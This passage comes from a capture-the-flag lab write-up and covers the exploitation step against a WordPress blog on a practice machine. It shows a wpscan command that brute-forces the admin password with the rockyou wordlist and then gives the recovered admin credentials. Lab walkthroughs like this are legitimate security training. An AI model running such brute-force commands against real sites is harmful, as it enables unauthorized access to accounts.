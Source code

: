 Let's proceed with exploitation.


# EXPLOITATION
---

We need to brute force, let's use this command:

```
wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

It will take some time, after it finishes we get:


![Pasted image 20250529141114.png](../../IMAGES/Pasted%20image%2020250529141114.png)


We got credentials: 

```
admin:my2boys
```


![Pasted image 20250529141427.png](../../IMAGES/Pasted%20image%2020250529141427.png)

